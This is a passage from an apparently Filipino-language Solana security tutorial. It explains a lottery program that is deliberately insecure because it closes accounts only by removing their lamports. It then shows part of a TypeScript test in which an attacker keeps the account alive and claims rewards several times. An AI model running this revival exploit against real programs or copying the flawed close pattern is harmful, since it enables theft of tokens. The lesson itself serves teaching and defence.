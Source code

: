 Kapag ang isang user ay tumawag ng `enter_lottery`, ang program ay magpapasimula ng isang account upang mag-imbak ng ilang estado tungkol sa entry ng lottery ng user.

Dahil ito ay isang pinasimpleng halimbawa sa halip na isang ganap na programa ng lottery, kapag ang isang user ay nakapasok na sa lottery, maaari nilang tawagan ang pagtuturo na `redeem_rewards_insecure` anumang oras. Ang tagubiling ito ay magbibigay sa user ng halaga ng Reward token na proporsyonal sa dami ng beses na nakapasok ang user sa lottery. Matapos i-minting ang mga reward, isinasara ng programa ang entry sa lottery ng user.

Maglaan ng isang minuto upang maging pamilyar sa code ng programa. Ang tagubiling `enter_lottery` ay lumilikha lamang ng isang account sa isang PDA na nakamapa sa user at nagpapasimula ng ilang estado dito.

Ang tagubiling `redeem_rewards_insecure` ay nagsasagawa ng ilang pagpapatunay ng account at data, nagbibigay ng mga token sa ibinigay na token account, pagkatapos ay isinasara ang lottery account sa pamamagitan ng pag-alis ng mga lamport nito.

Gayunpaman, pansinin ang tagubiling `redeem_rewards_insecure` *lamang* ay naglilipat ng mga lamport ng account, na nag-iiwan sa account na bukas sa mga muling pag-atake.

## 2. Test Insecure Program

Ang isang attacker na matagumpay na pumipigil sa kanilang account mula sa pagsasara ay maaaring tumawag ng `redeem_rewards_insecure` nang maraming beses, na nagke-claim ng mas maraming reward kaysa sa dapat nilang bayaran.

Naisulat na ang ilang panimulang pagsusulit na nagpapakita ng kahinaang ito. Tingnan ang `closing-accounts.ts` file sa direktoryo ng `tests`. Mayroong ilang setup sa function na `before`, pagkatapos ay isang pagsubok na lumilikha lamang ng bagong entry sa lottery para sa `attacker`.

Panghuli, mayroong pagsubok na nagpapakita kung paano mapapanatili ng isang attacker na buhay ang account kahit na pagkatapos mag-claim ng mga reward at pagkatapos ay mag-claim muli ng mga reward. Ang pagsusulit na iyon ay ganito ang hitsura:

```typescript
it("attacker  can close + refund lottery acct + claim multiple rewards", async () => {
    // claim multiple times
    for (let i = 0; i < 2; i++) {
      const tx = new Transaction()
      // instruction claims rewards, program will try to close account
      tx.add(
        await program.methods
          .redeemWinningsInsecure()
          .accounts({
            lotteryEntry: attackerLotteryEntry,
            user: attacker.publicKey,
            userAta: attackerAta,
            rewardMint: rewardMint,
            mintAuth: mintAuth,
            tokenProgram: TOKEN_PROGRAM_ID,
          })
          .instruction()
      )

      // user adds instruction to refund dataAccount lamports
      const rentExemptLamports =
        await provider.connection.getMinimumBalanceForRentExemption(
          82,
          "confirmed"
        )
      tx.add(
        SystemProgram.transfer({
          fromPubkey: attacker.publicKey,
          toPubkey: attackerLotteryEntry,
          lamports: rentExemptLamports,
        })
      )
```